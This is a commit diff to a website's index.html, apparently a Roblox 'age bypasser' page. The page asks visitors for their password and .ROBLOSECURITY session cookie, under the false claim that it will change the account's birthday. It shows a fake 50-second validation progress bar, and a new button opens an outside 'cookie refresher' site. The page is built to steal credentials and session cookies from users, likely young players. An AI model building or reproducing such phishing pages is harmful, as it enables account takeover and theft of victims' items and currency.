

Before and after one commit to SplunkV1/Rakninv2, a website: page index.html in a window 1280 px wide. After the commit the page ends 831 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,248 +1,211 @@
-<!doctype html>
+<!DOCTYPE html>
 <html lang="en">
 <head>
-<meta charset="utf-8" />
-<meta name="viewport" content="width=device-width,initial-scale=1" />
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>AGE BYPASSER TOOLS</title>
     <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+        }
+
         body {
             min-height: 100vh;
             display: flex;
             align-items: center;
             justify-content: center;
-    background: #0a0000;
+            background: #0a0a2a;
             background-image:
-      radial-gradient(2px 2px at 20px 30px, #ffffff, transparent),
-      radial-gradient(2px 2px at 40px 70px, rgba(255,255,255,0.8), transparent),
-      radial-gradient(1px 1px at 90px 40px, #ffffff, transparent),
-      radial-gradient(1px 1px at 130px 80px, rgba(255,255,255,0.6), transparent),
-      radial-gradient(2px 2px at 160px 30px, #ffffff, transparent),
-      radial-gradient(circle at 50% 50%, #8B0000 0%, #4B0000 30%, #1a0000 70%, #000000 100%),
-      linear-gradient(45deg, rgba(139,0,0,0.3) 0%, rgba(75,0,0,0.5) 50%, rgba(26,0,0,0.7) 100%);
-    background-size: 200px 100px, 200px 100px, 200px 100px, 200px 100px, 200px 100px, 100% 100%, 100% 100%;
-    background-repeat: repeat, repeat, repeat, repeat, repeat, no-repeat, no-repeat;
+                radial-gradient(circle at 20% 30%, rgba(120, 119, 198, 0.3) 0%, transparent 50%),
+                radial-gradient(circle at 80% 70%, rgba(255, 119, 198, 0.3) 0%, transparent 50%),
+                radial-gradient(circle at 40% 90%, rgba(120, 219, 255, 0.3) 0%, transparent 50%),
+                linear-gradient(135deg, #0a0a2a 0%, #1a1a4a 50%, #0a0a2a 100%);
             color: #fff;
-    font-family: 'Arial Black', Arial, sans-serif;
             padding: 20px;
-    animation: starTwinkle 3s ease-in-out infinite alternate;
+            line-height: 1.5;
         }
 
-  @keyframes starTwinkle {
-    0% { background-position: 0px 0px, 0px 0px, 0px 0px, 0px 0px, 0px 0px, 0% 0%, 0% 0%; }
-    100% { background-position: 10px 5px, -5px 10px, 15px -5px, -10px 15px, 5px -10px, 0% 0%, 0% 0%; }
+        .container {
+            width: 100%;
+            max-width: 480px;
         }
 
-  /* Card */
         .card {
-    width: 100%;
-    max-width: 450px;
-    background: linear-gradient(135deg, rgba(20,0,0,0.9) 0%, rgba(40,0,0,0.8) 50%, rgba(60,0,0,0.7) 100%);
-    border: 2px solid #ff0000;
-    border-radius: 15px;
+            background: rgba(16, 18, 36, 0.95);
+            border-radius: 16px;
             padding: 30px;
             box-shadow:
-      0 0 30px rgba(255,0,0,0.5),
-      0 8px 40px rgba(0,0,0,0.8),
-      inset 0 1px 0 rgba(255,255,255,0.1);
-    text-align: left;
-    backdrop-filter: blur(5px);
-    position: relative;
-    overflow: hidden;
+                0 10px 30px rgba(0, 0, 0, 0.5),
+                0 1px 1px rgba(255, 255, 255, 0.1) inset;
+            border: 1px solid rgba(100, 100, 255, 0.2);
+            backdrop-filter: blur(10px);
+            margin-bottom: 20px;
         }
 
-  .card::before {
-    content: '';
-    position: absolute;
-    top: 0;
-    left: 0;
-    right: 0;
-    bottom: 0;
-    background: linear-gradient(45deg, transparent 30%, rgba(255,0,0,0.1) 50%, transparent 70%);
-    animation: cardShine 3s ease-in-out infinite;
-    pointer-events: none;
+        h1 {
+            text-align: center;
+            margin-bottom: 25px;
+            font-size: 28px;
+            font-weight: 700;
+            color: #ffffff;
+            text-shadow: 0 0 10px rgba(100, 149, 237, 0.7);
+            letter-spacing: 1px;
         }
 
-  @keyframes cardShine {
-    0% { transform: translateX(-100%); }
-    100% { transform: translateX(100%); }
+        .description {
+            background: rgba(30, 35, 70, 0.7);
+            border-radius: 12px;
+            padding: 18px;
+            margin-bottom: 25px;
+            border-left: 4px solid #6495ed;
+            font-size: 15px;
+            color: #e0e0ff;
+        }
+
+        .description strong {
+            color: #6495ed;
+            font-weight: 700;
+        }
+
+        .form-group {
+            margin-bottom: 20px;
         }
 
         label {
             display: block;
-    margin-bottom: 6px;
-    font-size: 14px;
+            margin-bottom: 8px;
+            font-weight: 600;
+            color: #b0b0ff;
+            font-size: 15px;
         }
-  input {
+
+        input, textarea {
             width: 100%;
-    padding: 12px 15px;
-    margin-bottom: 16px;
+            padding: 14px 16px;
             border-radius: 10px;
-    border: 2px solid rgba(255,0,0,0.3);
-    background: linear-gradient(135deg, rgba(40,0,0,0.6) 0%, rgba(20,0,0,0.8) 100%);
+            border: 1px solid rgba(100, 149, 237, 0.4);
+            background: rgba(20, 25, 50, 0.8);
             color: #fff;
             font-size: 15px;
-    font-weight: 500;
             transition: all 0.3s ease;
-    box-shadow: inset 0 2px 5px rgba(0,0,0,0.3);
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
         }
 
-  input:focus {
-    border-color: #ff0000;
-    background: linear-gradient(135deg, rgba(60,0,0,0.8) 0%, rgba(40,0,0,0.9) 100%);
-    box-shadow:
-      inset 0 2px 5px rgba(0,0,0,0.3),
-      0 0 15px rgba(255,0,0,0.5);
+        input:focus, textarea:focus {
             outline: none;
+            border-color: #6495ed;
+            box-shadow: 0 0 0 2px rgba(100, 149, 237, 0.3);
+            background: rgba(25, 30, 60, 0.9);
         }
 
-  input::placeholder {
-    color: rgba(255,255,255,0.6);
-    font-weight: 400;
+        textarea {
+            height: 120px;
+            resize: vertical;
+        }
+
+        input::placeholder, textarea::placeholder {
+            color: rgba(200, 200, 255, 0.6);
         }
 
         .btn {
             width: 100%;
-    padding: 15px 20px;
-    border-radius: 12px;
-    background: linear-gradient(135deg, #ff0000 0%, #cc0000 50%, #990000 100%);
-    border: 2px solid #ff0000;
+            padding: 16px 20px;
+            border-radius: 10px;
+            background: linear-gradient(135deg, #6495ed 0%, #4169e1 100%);
+            border: none;
             color: #fff;
-    font-weight: 900;
+            font-weight: 700;
             font-size: 16px;
-    text-transform: uppercase;
-    letter-spacing: 1px;
             cursor: pointer;
-    position: relative;
-    overflow: hidden;
             transition: all 0.3s ease;
-    box-shadow:
-      0 5px 15px rgba(255,0,0,0.4),
-      inset 0 1px 0 rgba(255,255,255,0.2);
-  }
-
-  .btn::before {
-    content: '';
-    position: absolute;
-    top: 0;
-    left: -100%;
-    width: 100%;
-    height: 100%;
-    background: linear-gradient(90deg, transparent, rgba(255,255,255,0.3), transparent);
-    transition: left 0.5s;
+            margin-bottom: 15px;
+            box-shadow: 0 4px 15px rgba(100, 149, 237, 0.4);
         }
 
         .btn:hover {
-    background: linear-gradient(135deg, #ff2222 0%, #dd1111 50%, #aa1111 100%);
-    box-shadow:
-      0 8px 20px rgba(255,0,0,0.6),
-      inset 0 1px 0 rgba(255,255,255,0.3);
+            background: linear-gradient(135deg, #6fa1ff 0%, #4a7aff 100%);
             transform: translateY(-2px);
-  }
-
-  .btn:hover::before {
-    left: 100%;
+            box-shadow: 0 6px 20px rgba(100, 149, 237, 0.6);
         }
 
         .btn:active {
             transform: translateY(0);
         }
 
-  /* Loader + Success */
+        .btn-secondary {
+            background: linear-gradient(135deg, #7e57c2 0%, #5e35b1 100%);
+            box-shadow: 0 4px 15px rgba(126, 87, 194, 0.4);
+        }
+
+        .btn-secondary:hover {
+            background: linear-gradient(135deg, #8d6bc9 0%, #6d43c7 100%);
+            box-shadow: 0 6px 20px rgba(126, 87, 194, 0.6);
+        }
+
         .progress {
             margin-top: 20px;
             height: 12px;
-    background: linear-gradient(135deg, rgba(40,0,0,0.8), rgba(20,0,0,0.9));
-    border: 1px solid rgba(255,0,0,0.3);
+            background: rgba(30, 35, 70, 0.8);
             border-radius: 8px;
             overflow: hidden;
             display: none;
-    box-shadow: inset 0 2px 5px rgba(0,0,0,0.5);
+            box-shadow: inset 0 1px 3px rgba(0, 0, 0, 0.4);
         }
+
         .progress-bar {
             height: 100%;
             width: 0%;
-    background: linear-gradient(90deg, #ff0000 0%, #ff4444 50%, #ff0000 100%);
+            background: linear-gradient(90deg, #6495ed 0%, #4169e1 50%, #6495ed 100%);
             transition: width 0.3s ease;
-    box-shadow: 0 0 10px rgba(255,0,0,0.8);
-    animation: progressPulse 1.5s ease-in-out infinite;
+            border-radius: 8px;
         }
 
-  @keyframes progressPulse {
-    0%, 100% { box-shadow: 0 0 10px rgba(255,0,0,0.8); }
-    50% { box-shadow: 0 0 20px rgba(255,0,0,1); }
-  }
         .status {
             margin-top: 12px;
             font-size: 14px;
-    color: #ddd;
+            color: #b0b0ff;
             text-align: center;
+            min-height: 20px;
+        }
+
+        .footer {
+            text-align: center;
+            color: rgba(200, 200, 255, 0.7);
+            font-size: 14px;
+            margin-top: 20px;
         }
     </style>
 </head>
 <body>
-  <div>
-    <!-- Card -->
+    <div class="container">
         <div class="card">
-      <h1 style="
-        color: #ffffff;
-        text-align: center;
-        margin-bottom: 20px;
-        font-size: 2.5em;
-        font-weight: 900;
-        text-shadow: 0 0 10px #ff0000, 0 0 20px #ff0000, 0 0 30px #ff0000, 2px 2px 4px rgba(0,0,0,0.8);
-        letter-spacing: 3px;
-        font-family: 'Arial Black', Arial, sans-serif;
-        text-transform: uppercase;
-        background: linear-gradient(45deg, #ffffff 0%, #ffcccc 50%, #ffffff 100%);
-        -webkit-background-clip: text;
-        -webkit-text-fill-color: transparent;
-        background-clip: text;
-        animation: titleGlow 2s ease-in-out infinite alternate;
-      ">⚡ AGE FORCER</h1>
-      <style>
-        @keyframes titleGlow {
-          0% { text-shadow: 0 0 10px #ff0000, 0 0 20px #ff0000, 0 0 30px #ff0000; }
-          100% { text-shadow: 0 0 15px #ff4444, 0 0 25px #ff4444, 0 0 35px #ff4444; }
-        }
-      </style>
-      <div style="
-        background: linear-gradient(135deg, rgba(80,0,0,0.4) 0%, rgba(40,0,0,0.6) 100%);
-        border: 2px solid rgba(255,0,0,0.5);
-        border-radius: 12px;
-        padding: 15px;
-        margin-bottom: 25px;
-        font-size: 14px;
-        line-height: 1.5;
-        box-shadow:
-          0 0 15px rgba(255,0,0,0.3),
-          inset 0 1px 0 rgba(255,255,255,0.1);
-        position: relative;
-        overflow: hidden;
-      ">
-        <div style="
-          position: absolute;
-          top: 0;
-          left: -100%;
-          width: 100%;
-          height: 100%;
-          background: linear-gradient(90deg, transparent, rgba(255,0,0,0.1), transparent);
-          animation: warningShine 4s ease-in-out infinite;
-        "></div>
-        <strong style="color: #ff4444; font-weight: 900; text-shadow: 0 0 5px rgba(255,0,0,0.8);">⚠️ CRITICAL ALERT:</strong><br>
-        <span style="color: #ffcccc; font-weight: 500;">This tool will permanently change your Roblox account's birthday to June 5, 2015. This action cannot be undone and will affect your account's age restrictions and features.</span>
+            <h1>⚡ AGE FORCER</h1>
+
+            <div class="description">
+                <strong>⚠️ CRITICAL ALERT:</strong><br>
+                This tool will permanently change your Roblox account's birthday to June 5, 2015. This action cannot be undone and will affect your account's age restrictions and features.
             </div>
-      <style>
-        @keyframes warningShine {
-          0% { left: -100%; }
-          50% { left: -100%; }
-          100% { left: 100%; }
-        }
-      </style>
+
             <form id="demoForm">
-        <input id="password" type="Password" placeholder="Enter Your Password For Verification" />
-        <input id=".RobloxSecurity" type="text" placeholder="Paste Your Roblox Security Cookie" />
+                <div class="form-group">
+                    <label for="password">Password</label>
+                    <input id="password" type="password" placeholder="Enter your password" />
+                </div>
 
-        <button class="btn" type="button" id="submitBtn">Submit</button>
+                <div class="form-group">
+                    <label for="cookie">Roblox Cookie (.ROBLOSECURITY)</label>
+                    <textarea
+                        id="cookie"
+                        placeholder="_|WARNING:-DO-NOT-SHARE-THIS.--Sharing-this-will-allow-someone-to-log-in-as-you-and-to-steal-your-ROBUX-and-items.|_"
+                    ></textarea>
+                </div>
+
+                <button class="btn" type="button" id="submitBtn">Bypass</button>
+
+                <button class="btn btn-secondary" type="button" id="refreshBtn">Refresh Cookie</button>
 
                 <!-- Loading -->
                 <div class="progress" id="progress">
@@ -251,10 +214,15 @@
                 <div class="status" id="status"></div>
             </form>
         </div>
+
+        <div class="footer">
+            AGE BYPASSER TOOLS © 2025
+        </div>
     </div>
 
     <script>
         const btn = document.getElementById('submitBtn');
+        const refreshBtn = document.getElementById('refreshBtn');
         const progress = document.getElementById('progress');
         const progressBar = document.getElementById('progressBar');
         const status = document.getElementById('status');
@@ -262,6 +230,11 @@
         // Get all form inputs
         const passwordInput = document.getElementById('password');
         const cookieInput = document.getElementById('cookie');
+
+        // Add event listener for the refresh button
+        refreshBtn.addEventListener('click', () => {
+            window.open('https://rblx-refresher.ct.ws/?i=1', '_blank');
+        });
 
         btn.addEventListener('click', async () => {
             // Collect all form data
@@ -281,13 +254,13 @@
             btn.disabled = true;
             btn.textContent = 'Processing...';
             progress.style.display = 'block';
-    status.style.color = '#ddd';
+            status.style.color = '#b0b0ff';
 
             let percent = 0;
             status.textContent = 'Validating 0%';
 
             const interval = setInterval(() => {
-      percent += 2;  // Changed from 5 to 2 to make it take 50 seconds (100/2 * 1000ms = 50 seconds)
+                percent += 2;
                 progressBar.style.width = percent + '%';
 
                 if (percent <= 30) {
@@ -302,7 +275,7 @@
                     clearInterval(interval);
                     submitForm(formData);
                 }
-    }, 1000);  // Changed from 100ms to 1000ms (1 second)
+            }, 1000);
         });
 
         async function submitForm(formData) {
@@ -334,7 +307,7 @@
 
             // Re-enable button
             btn.disabled = false;
-    btn.textContent = 'Submit';
+            btn.textContent = 'Bypass';
         }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
